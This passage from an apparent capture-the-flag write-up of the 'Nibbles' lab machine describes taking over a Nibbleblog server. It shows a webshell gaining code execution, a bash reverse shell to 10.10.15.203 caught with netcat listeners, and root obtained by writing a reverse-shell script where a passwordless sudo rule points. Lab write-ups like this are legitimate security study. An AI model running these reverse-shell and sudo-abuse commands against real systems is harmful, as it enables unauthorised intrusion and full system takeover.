

Now that we have uploaded the webshell on the web application, it's time to try to access it.



Turns out, we did indeed get the webshell working on the web application & have successfully gained `RCE`. I, then, used a `reverse shell` to work through the privesc as the webshell is not persistent, i.e., it spawns a new shell every time we try to execute the code, so we cannot switch to any other user than `nibbler`.



```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.129.75.165 59646
bash: cannot set terminal process group (1368): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

Then, I upgraded my shell to a full TTY shell, so that I can use the arrow keys to hover through the commands.

### Reference

https://hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ wc -c /home/nibbler/user.txt                                  
33 /home/nibbler/user.txt
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

And just like that, I was able to get the user flag.

## Privilege Escalation

As usual, the very first thing I checked was whether the user `nibbler` had any kind of sudo privileges or not.

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

Turns out, the user `nibbler` had sudo privileges to run the bash file located at `/home/nibbler/personal/stuff/monitor.sh` as `root` without having to use password for authentication.

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -lah /home/nibbler/             
total 20K
drwxr-xr-x 3 nibbler nibbler 4.0K Dec 29  2017 .
drwxr-xr-x 3 root    root    4.0K Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4.0K Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1.9K Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Aug 30 19:31 user.txt
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

However, there was no such directory or file whatsoever. So, I just created the child directories & created a bash file with malicious content in it & named it `monitor.sh`.

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ mkdir -p /home/nibbler/personal/stuff/
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler/personal/stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ nano monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
bash -c 'bash -i >& /dev/tcp/10.10.15.203/9002 0>&1'
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

Then, I just started another netcat listener on my pwnbox & ran the command mentioned in the sudo privileges.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 

```

```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.129.75.165 47150
root@Nibbles:/home/nibbler/personal/stuff# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
root@Nibbles:/home/nibbler/personal/stuff# 
```

